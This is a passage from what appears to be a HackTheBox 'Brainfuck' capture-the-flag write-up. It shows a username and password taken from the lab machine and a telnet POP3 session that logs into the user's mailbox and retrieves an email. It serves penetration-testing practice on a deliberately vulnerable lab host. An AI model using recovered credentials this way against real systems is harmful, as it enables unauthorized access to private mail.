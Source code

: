  ![Password](/assets/img/brainfuck/password.png)

 Now we have a potential username `orestis` and password `kHGuERB29DNiNE`

### Email access

With the smtp credentials obtained, we can login to `orestis'` email and see what we can get.

I dont have any mail client installed on my box hence I will just use the command line

```c
┌─[george@parrot]─[~/HTB/boxes/brainfuck]
└──╼ $ telnet 10.10.10.17 110
Trying 10.10.10.17...
Connected to 10.10.10.17.
Escape character is '^]'.
+OK Dovecot ready.
USER orestis
+OK
PASS kHGuERB29DNiNE
+OK Logged in.
```
We can see he has 2 emails in his mailbox

```c
LIST
+OK 2 messages:
1 977
2 514
.
RETR 1
+OK 977 octets
Return-Path: <www-data@brainfuck.htb>
X-Original-To: orestis@brainfuck.htb
Delivered-To: orestis@brainfuck.htb
Received: by brainfuck (Postfix, from userid 33)
        id 7150023B32; Mon, 17 Apr 2017 20:15:40 +0300 (EEST)
To: orestis@brainfuck.htb
Subject: New WordPress Site
X-PHP-Originating-Script: 33:class-phpmailer.php
Date: Mon, 17 Apr 2017 17:15:40 +0000
```